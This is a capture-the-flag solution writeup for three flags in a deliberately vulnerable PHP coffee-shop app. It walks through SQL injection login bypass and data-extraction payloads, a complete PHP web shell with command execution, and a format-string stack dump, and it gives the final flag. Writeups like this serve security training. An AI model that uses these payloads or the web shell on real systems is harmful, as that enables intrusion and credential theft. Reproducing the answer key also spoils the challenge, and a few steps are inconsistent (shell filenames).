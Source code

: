 # CTF Flags Documentation

## Flag 1: Admin Password Discovery

**Name**: Database Infiltration Flag
**Location**: Base64-encoded admin password in the users table
**Flag Format**: CTF{<admin-password-decoded>}

1. Initial SQL Injection Bypass
    1. Navigate to the login page
    2. Use SQL injection to bypass authentication:
        1. Username: ' OR 1=1 --
        2. Password: anything
    3. This logs you in as the first user in the database


2. Access Profile Page

    1. Navigate to index.php?page=profile
    2. Locate the "Share Your Experience" review section


3. Exploit SQL Injection in Review Update

    1. Use the review textarea to perform SQL injection via the updateReview() function
    2. First, discover database structure:
        ```sql
        sql', review_text=(SELECT GROUP_CONCAT(table_name SEPARATOR ', ') FROM information_schema.tables WHERE table_schema=database()) WHERE '1'='1' -- 
        ```


4. Extract User Table Columns

```sql
sql', review_text=(SELECT GROUP_CONCAT(column_name SEPARATOR ', ') FROM information_schema.columns WHERE table_name='users') WHERE '
1'='
1' --
```

5. Extract User Data

```sql
sql', review_text=(SELECT GROUP_CONCAT(CONCAT(username,':',password,':',role) SEPARATOR ', ') FROM users) WHERE '
1'='
1' --
```

6. Decode Admin Password
    1. Locate the admin user entry in the extracted data
    2. The password is stored as base64-encoded
    3. Decode the base64 string to reveal the flag

## Flag 2: File System Access

**Name**: Server File System Flag
**Location**: /flag.txt file on the server
**Flag** Format: CTF{<content-of-flag-txt>}

1. Obtain Admin Credentials
    1. Complete Flag 1 exploit to get admin username and decoded password
2. Login as Administrator
    1. Use the admin credentials to log in properly as admin user
3. Access File Upload Functionality
    1. As an admin user, the profile page shows file upload capability
    2. The upload function in handleFileUpload() has no file type restrictions for admins
4. Create PHP Web Shell
    1. Create a PHP file with web shell functionality:
   ```html
   <html>
    <body>
    <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="text" name="command" autofocus id="command" size="50">
    <input type="submit" value="Execute">
    </form>
    <pre>
    <?php
        if(isset($_GET['command'])) 
        {
            system($_GET['command'] . ' 2>&1'); 
        }
    ?>
    </pre>
    </body>
    </html>
    ```
   2. Save as shell.png.php
5. Upload Web Shell
   1. Use the profile image upload feature to upload shell.php
   2. The file will be stored in the /uploads/ directory
6. Access Web Shell
   1. Navigate to /uploads/shell.php
   2. Use the command interface to explore the file system
7. Locate and Read Flag
   1. Execute ls or dir to list files in the current directory
   2. Look for flag.txt

## Flag 3: Format String Vulnerability

**Name**: Secret Executable Flag #1
**Location**: challenge/web/uploads/vuln
**Flag** Format: CTF{}

1. Gain Admin Access  
   1. Complete Flag 2 to obtain access to the PHP web shell.

2. Download the Vulnerable Binary  
   1. List the files and locate the base64-encoded binary named `vuln`.
   2. Base64-encode the binary on the server so you can copy it:
      ```sh
      base64 ./vuln
      ```

3. Decode and Prepare the Binary  
   1. On your local machine, decode the base64 and make it executable.

4. Run the Binary in Docker  
   1. Move the decoded `vuln` binary to the `challenge/secret-executable` directory.
   2. Build and run the Docker container:
      ```sh
      docker build -t secret-vuln .
      docker run -it --rm secret-vuln
      ```

5. Exploit the Format String Vulnerability  
   1. When prompted with:
      ```
      Welcome to HeadOfCoffee's Secret Order Printer!
      Place your custom order below:
      ```
   2. Enter the following format string payload to dump memory:
      ```
      %lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx,%lx
      ```

6. Extract the Flag  
   1. The output will display hexadecimal values from the stack. Look for values that resemble ASCII when converted.
   2. Example output:
      ```
      6e6133627b465443
      355f646e336c625f
      ```
   3. Reverse the byte order of each 64-bit chunk (little-endian) to reveal the flag:
      - `6e6133627b465443` → `CTF{b3an`
      - `355f646e336c625f` → `_bl3nd_5`
   4. Combine the parts to get the full flag:
      ```
      CTF{b3an_bl3nd_5}
      ```

